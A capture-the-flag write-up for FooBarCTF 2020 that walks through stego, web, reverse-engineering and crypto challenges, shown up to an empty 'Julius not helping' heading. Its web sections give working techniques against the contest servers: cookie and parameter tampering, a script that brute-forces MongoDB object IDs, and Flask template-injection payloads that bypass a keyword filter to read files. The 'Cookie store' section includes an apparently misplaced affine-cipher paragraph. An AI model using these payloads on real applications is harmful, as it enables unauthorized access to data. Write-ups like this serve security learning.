 

This weekend, apart from participating to CodeGate 2020 CTF Qualifier (and hopefully qualifying in the finals), I had the pleasure of playing FooBarCTF 2020, an interesting competition held by students from NIT Durgapur, India. While the latter wasn’t listed on CTFTime, it was still full of interesting challenges. Below you can find my writeup for some challenges, as well as a link to the second part.

## Legend

#### Shell

Can be found in [part II.](https://blog.kuhi.to/foobarctf_2020_writeup_part_ii)

#### Stego

  * [Nothing’s in here](#stego1)

#### Web

  * [GET me if you can](#web1)
  * [Cookie store](#web2)
  * [Strong vaccine](#web3)
  * [Client side is untrustworthy](#web4)
  * [Useless Website](#web5)
  * [I EZ](#web6)
  * [Cardgen](#web7)

#### Reverse

  * [Stranger Things](#reverse1)

#### Crypto

  * [Teacher is absent](#crypto1)
  * [Julius not helping](#crypto2)
  * [Happy to see me](#crypto3)

#### Misc

  * [U cant C me](#misc1)
  * [Rock n Roll Baby](#misc2)
  * [Secure app](#misc3)
  * [Cant Read This](#misc4)

#### Forensics

  * [The EXORcist](#forensics1)
  * [Life is Hard](#forensics2)

## Nothing’s in here {#stego1}



This was the only challenge in the ‘stego’ category. Attached was an image with Marvel’s Endgame movie:

I ran the usual tools on it (exiftool, steghide, stegsolve) and I noticed an anomaly on the least significant bits. For example, red plane 2 looked like this:

That meant that the flag was probably hidden using lsb steganography. I tried using stegbrute, thinking that the flag was simply protected by a password, but it turned out that wasn’t the case. After looking through [John H’s ctf-katana](https://github.com/JohnHammond/ctf-katana), I managed to extract the flag by using [jsteg](https://github.com/lukechampine/jsteg):


yakuhito@furry-catstation:~/ctf/foobar2020/nothingsinhere$ ./jsteg-linux-amd64
Usage: jsteg [command] [args]

Commands:
    jsteg hide in.jpg [FILE] [out.jpg]
    jsteg reveal in.jpg [FILE]
yakuhito@furry-catstation:~/ctf/foobar2020/nothingsinhere$ ./jsteg-linux-amd64 reveal endgame.jpg 
GLUG{51n6h4l_15_51n6l3?}
yakuhito@furry-catstation:~/ctf/foobar2020/nothingsinhere$ 



**Flag:** GLUG{51n6h4l\_15\_51n6l3?}

## GET me if you can {#web1}



This was more like a warm-up challenge; I was provided with an URL that hosted the following page:



Wanting to solve the challenge faster, I clicked the button without inspecting the page’s source code:



I noticed the URL contained a parameter named ‘auth’ that was set to ‘false’, so I changed it to ‘true’ and got the flag:



**Flag:** GLUG{5n0wd3n\_3471n6\_53cur17y} 

## Cookie store {#web2}



The provided URL hosted a simple site:



The site didn’t offer me a lot of options, so I tried buying the flag and got an error:



I remembered the name of the challenge and realized that my points were stored unencrypted inside a cookie. I used a cookie editor and changed my points to 1337:



After that, I purchased the flag:



As a crypto enthusiast, I instantly recognized the reference to affine cipher. Also, the key was either (5,8) or (8,5), because usual reviews include ratings from a scale of 1 to 5 or 10. I decrypted the flag using [cryptii](https://cryptii.com/):



**Flag:** GLUG{cookies\_are\_good}

## Strong vaccine {#web3}



After reading the challenge description, I was 100% sure this was an SQL injection challenge without accessing the site. As it turned out, I was right.



As this technique is very common, I won’t go into detail here.



**Flag:** GLUG{youre\_a\_ good_doc}

## Client side is untrustworthy {#web4}



The given URL only hosted a simple page:



However, upon closer inspection, the page seemed to contain an obfuscated javascript function that validates the password. After formatting it for a bit, the code looked like this:


var _0x5a46 = ['42113}', 'bit_messy', 'this', 'Password\x20Verified', 'Incorrect\x20password', 'getElementById', 'value', 'substring', 'GLUG{', 'this_is_'];
(function (_0x4bd822, _0x2bd6f7) {
	var _0xb4bdb3 = function (_0x1d68f6) {
		while (--_0x1d68f6) {
			_0x4bd822['push'](_0x4bd822['shift']());
		}
	};
	_0xb4bdb3(++_0x2bd6f7);
}(_0x5a46, 0x1b3));
var _0x4b5b = function (_0x2d8f05, _0x4b81bb) {
	_0x2d8f05 = _0x2d8f05 - 0x0;
	var _0x4d74cb = _0x5a46[_0x2d8f05];
	return _0x4d74cb;
};

function verify() {
	checkpass = document[_0x4b5b('0x0')]('pass')[_0x4b5b('0x1')];
	split = 0x4;
	if (checkpass[_0x4b5b('0x2')](0x0, split * 0x2) == _0x4b5b('0x3')) {
		if (checkpass[_0x4b5b('0x2')](0x7, 0x9) == '{n') {
			if (checkpass[_0x4b5b('0x2')](split * 0x2, split * 0x2 * 0x2) == _0x4b5b('0x4')) {
				if (checkpass[_0x4b5b('0x2')](0x3, 0x6) == 'oCT') {
					if (checkpass[_0x4b5b('0x2')](split * 0x3 * 0x2, split * 0x4 * 0x2) == _0x4b5b('0x5')) {
						if (checkpass['substring'](0x6, 0xb) == 'F{not') {
							if (checkpass[_0x4b5b('0x2')](split * 0x2 * 0x2, split * 0x3 * 0x2) == _0x4b5b('0x6')) {
								if (checkpass[_0x4b5b('0x2')](0xc, 0x10) == _0x4b5b('0x7')) {
									alert(_0x4b5b('0x8'));
								}
							}
						}
					}
				}
			}
		}
	} else {
		alert(_0x4b5b('0x9'));
	}
}



I took every if statement and decoded the string that was compared with the inputted password using my browser’s console:



I then just spotted the flag, as the validation process was a bit faulty.

**Flag:** GLUG{this\_is\_bit\_messy\_42113}

## Useless Website {#web5}



The given site seemed to be a copied template:



However, after inspecting the web traffic, I found some interesting requests:




yakuhito@furry-catstation:~/ctf/foobar2020/uselesswebsite$ curl "http://138.68.252.44:7081/objects/?id=5e0cafcc1c9d440000b58aa2"
{"_id":"5e0cafcc1c9d440000b58aa2","data":"This is irrelevant."}

yakuhito@furry-catstation:~/ctf/foobar2020/uselesswebsite$ curl "http://138.68.252.44:7081/objects/?id=5e0cafeb1c9d440000b58aa3"
{"_id":"5e0cafeb1c9d440000b58aa3","data":"Seriously, this is totally not relevant"}

yakuhito@furry-catstation:~/ctf/foobar2020/uselesswebsite$ curl "http://138.68.252.44:7081/objects/?id=5e0cb0061c9d440000b58aa4"
{"_id":"5e0cb0061c9d440000b58aa4","data":"Ok, fine. Keep looking, your choice......................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................btw, actions are recorded in actions.txt"}

yakuhito@furry-catstation:~/ctf/fooyakuhito@furry-catstation:~/ctf/foobar2020/uselesswebsite$



The last object mentioned something about actions.txt, so I accessed that file using my browser:



After the CTF was over, the admin told me that the object ids were assigned by MongoDB and were predictable. However, I didn’t know that when I solved the challenge, so I made a script that searched for valid objects. It’s based on the idea that the first bytes of the object id are the UNIX timestamp in hex format and the other part is just an incrementing number. The final script looked like this:


import requests
import threading
import time

a = open("dates.txt", "r").read().split("\n")

def makeReq(a, b):
	s = a + b
	url = "http://138.68.252.44:7081/objects/?id=" + s
	r = requests.get(url)
	if r.text == 'null':
		return
	print(r.url)
	print(r.text)

def process(l):
	if not l.startswith("15"):
		return
	#print(l)
	tk = "5e0cb0061c9d440000b58aa4".split("5e0cb006")[1]
	l = hex(int(l))[2:]
	a = int(tk, 16)
	for offset in range(-0, 13):
		s = l + hex(a + offset)[2:]
		#print(s)
		threading.Thread(target = makeReq, args=(l, hex(a + offset)[2:],)).start()
		#time.sleep(10)

for line in a:
	process(line)



Also, ‘dates.txt’ just contained the contents of ‘actions.txt’ followed by the corresponding UNIX timestamps:


Wed Jan 01 2020 20:12:20 GMT+0530 (India Standard Time) - added data
1577889740
Wed Jan 01 2020 20:12:51 GMT+0530 (India Standard Time) - added data
1577889771
Wed Jan 01 2020 20:13:18 GMT+0530 (India Standard Time) - added data
1577889798
Wed Jan 01 2020 20:16:39 GMT+0530 (India Standard Time) - added data
1577889999
Wed Jan 01 2020 20:17:40 GMT+0530 (India Standard Time) - added data
1577890060
Wed Jan 01 2020 20:18:16 GMT+0530 (India Standard Time) - added data
1577890096
Wed Jan 01 2020 20:34:06 GMT+0530 (India Standard Time) - added data
1577891046
Wed Jan 01 2020 20:34:16 GMT+0530 (India Standard Time) - added data
1577891056
Wed Jan 01 2020 20:34:43 GMT+0530 (India Standard Time) - added data
1577891083
Wed Jan 01 2020 20:35:10 GMT+0530 (India Standard Time) - added data
1577891110
Wed Jan 01 2020 20:35:22 GMT+0530 (India Standard Time) - added data
1577891122
Wed Jan 01 2020 20:35:40 GMT+0530 (India Standard Time) - added data
1577891140



Running the above script, I got the following output:


yakuhito@furry-catstation:~/ctf/foobar2020/uselesswebsite$ python bruteforce.py 
http://138.68.252.44:7081/objects/?id=5e0cb0cf1c9d440000b58aa5
{"_id":"5e0cb0cf1c9d440000b58aa5","data":"You are going to be very bored."}
http://138.68.252.44:7081/objects/?id=5e0cb1301c9d440000b58aa7
{"_id":"5e0cb1301c9d440000b58aa7","data":"Go on."}
http://138.68.252.44:7081/objects/?id=5e0cb10c1c9d440000b58aa6
{"_id":"5e0cb10c1c9d440000b58aa6","data":"This is going to take a long time for you."}
http://138.68.252.44:7081/objects/?id=5e0cb0061c9d440000b58aa4
{"_id":"5e0cb0061c9d440000b58aa4","data":"Ok, fine. Keep looking, your choice......................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................btw, actions are recorded in actions.txt"}
http://138.68.252.44:7081/objects/?id=5e0cb5261c9d440000b58aac
{"_id":"5e0cb5261c9d440000b58aac","data":"ok, fine."}
http://138.68.252.44:7081/objects/?id=5e0cb4f01c9d440000b58aaa
{"_id":"5e0cb4f01c9d440000b58aaa","data":"Do you seriously think there;s something useful here?"}
http://138.68.252.44:7081/objects/?id=5e0cb5441c9d440000b58aae
{"_id":"5e0cb5441c9d440000b58aae","data":"GLUG{0bj3ct_ids_ar3nt_s3cr3ts}"}
http://138.68.252.44:7081/objects/?id=5e0cb5321c9d440000b58aad
{"_id":"5e0cb5321c9d440000b58aad","data":"Next one has your flag."}
http://138.68.252.44:7081/objects/?id=5e0cb50b1c9d440000b58aab
{"_id":"5e0cb50b1c9d440000b58aab","data":"You are a very ardent person."}
http://138.68.252.44:7081/objects/?id=5e0cb4e61c9d440000b58aa9
{"_id":"5e0cb4e61c9d440000b58aa9","data":"Wait."}
yakuhito@furry-catstation:~/ctf/foobar2020/uselesswebsite$



**Flag:** GLUG{0bj3ct\_ids\_ar3nt_s3cr3ts}

## I EZ {#web6}



This one was very similar to ‘IZ’ from ISITDTU CTF 2018. To solve it, I followed [this writeup](https://graneed.hatenablog.com/entry/2018/07/29/043000). Final URL that returns the flag:


http://138.68.252.44:7805///?_=0.0


**Flag:** GLUG{c4571ng\_7hr0u6h\_7h3_3rr0r5}

## Cardgen {#web7}



This was one of my favorite challenges, along with the one involving ‘more’ (found in part II of this writeup). I solved it after the CTF ended, thinking that the contest is still running because of the timezone difference. The site was very elegant and I didn’t manage to find its template/source code online:

Basically, the site would generate FAKE credit cards with the inputted name on them. For example, this is a card I generated:

One interesting thing to notice is the URL for generated cards:


http://138.68.252.44:8137/cardgen/?name=Yaku+Hito


After a little bit of testing, I came up with the following url:


http://138.68.252.44:8137/cardgen/?name={ {21*2}}


This resulted the card being created for 42, which, at the time of writing, is the result of 21 * 2:

This made me conclude that the site was vulnerable to a Flask Server-Side Template Injection (SSTI) vulnrability. After further testing, I realized there was a filter in place that would disallow characters like ‘ and ” and keywords such as ‘open’ and ‘read’:



After a lot of trial-and-error, I came up with the following two payloads:


?name={ {url_for.__globals__.os|attr(request.args.param)(request.args.param2,0)}}&param=open&param2=flag.txt



?name={ {url_for.__globals__.os|attr(request.args.param)(1337,100)}}&param=read


Basically, the first one uses os.open() to create a file descriptor for ‘flag.txt’ and the second one uses that file descriptor (in this case 13337; should be replaced with the name on the card resulted from the first request) to read 100 characters from that file. 

**Flag:** GLUG{j1nj4\_n07\_n1nj4_d!}

## Stranger Things {#reverse1}



If you’ve met me at least once, you probably already know that I suck at reversing. However, this challenge was really beginner-friendly and I was able to solve it. The first step was opening the binary in ghidra and viewing the list of functions:



The ‘encode’ function was used to encode the flag, so I focused on it:



A non-functioning equivalent in python would be:



This encoding function was easily reversible, so I wrote a function that decodes the resulting data:



Also, flagContainer contained the encoded flag; so I copied the hex values from ghidra and put them in the following script:


from Crypto.Util.number import long_to_bytes

def decode(enc):
        n = len(enc)
        dec = ""
        for i in range(n):
                dec += chr((enc[i] + 4) ^ 0x11)
        return dec

enc = long_to_bytes(0x3935783032357830) + \
      long_to_bytes(0x3235783030347830) + \
      long_to_bytes(0x6531783036367830) + \
      long_to_bytes(0x6431783039377830) + \
      long_to_bytes(0x6134783062377830) + \
      long_to_bytes(0x6237783064317830) + \
      long_to_bytes(0x3837783061347830) + \
      long_to_bytes(0x6635783031327830) + \
      long_to_bytes(0x3836783030327830)

enc = enc[::-1].decode()

enc2 = b""
arr = enc.split("0x")[1:]

for i in arr:
        enc2 += long_to_bytes(int(i,16))

# reverse, take lsb encoding into consideration
enc2 = enc2[::-1]
enc3 = b""
for i in range(0, len(enc2), 2):
        enc3 += long_to_bytes(enc2[i + 1])
        enc3 += long_to_bytes(enc2[i])

print(decode(enc3))



Running the above script, I got the flag:


yakuhito@furry-catstation:~/ctf/foobar2020/stranger_things$ python solve.py 
GLUG{3l0n_0n_m4r5}
yakuhito@furry-catstation:~/ctf/foobar2020/stranger_things$



**Flag:** GLUG{3l0n\_0n\_m4r5}

## Teacher is absent {#crypto1}



I remember seeing a similar hint at picoCTF; when a teacher is absent you get a substitute 🙂 The flag was encrypted using a simple substitution cipher. The cipher can be cracked using [quipquip](https://quipqiup.com/):



**Flag:** GLUG{THETHINGSYOUUSEDTOOWNNOWTHEYOWNYOU}

## Julius not helping {#crypto2}

